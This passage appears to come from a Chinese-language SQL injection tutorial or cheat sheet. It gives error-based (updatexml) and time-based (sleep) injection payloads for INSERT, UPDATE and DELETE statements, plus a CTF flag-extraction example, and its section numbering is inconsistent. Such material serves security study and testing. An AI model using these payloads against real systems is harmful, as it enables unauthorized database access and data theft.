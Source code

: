 result: 1105 - XPATH syntax error: ‘~sectest’, Time: 0.000000s

**Demo**

http://chall.tasteless.eu/level15/

payload

```sql
insert into tables values ('\',',(select flag from level15_flag))# ')
```

- name: `\`
- text: `,(select flag from level15_flag))#`

### 12.3 UPDATE 注入

#### 12.3.1 UPDATE 报错

```sql
update wp_user_ set password="zxczxcxzc"or updatexml(1,concat(0x7e,database()),1) where id=9

update wp_user_ set password="zxczxcxzc"or(updatexml(1,concat(0x7e,database()),1)) where id=9

```

#### 13.3.2 UPDATE 延时

```sql
update wp_user_ set password="2" and sleep(1) where id=9

update wp_user_ set password="00000000" and if((LENGTH(database())=8),sleep(1),0) where id=9
--password处必须为数字型
```

### 12.4 DELETE 注入

#### 12.4.1 DELETE 延时

```sql
delete from wp_user_ where id=21 or/and(sleep(2))

delete from wp_user_ where id=21 and if((LENGTH(database()=7)),sleep(2),0)
```

#### 13.4.2 DELETE 报错

```sql
delete from wp_user_ where id=21 and updatexml(1,concat(0x7e,database()),1)
```

### 13.5 DESCIBE 注入

> {DESCRIBE | DESC} table_name [col_name | wild]
>
> DESCRIBE 提供有关一个表的列信息。col_name 可以是一个列名或是一个包含 SQL 通配符字符 `%`和 `_` 的字符串。
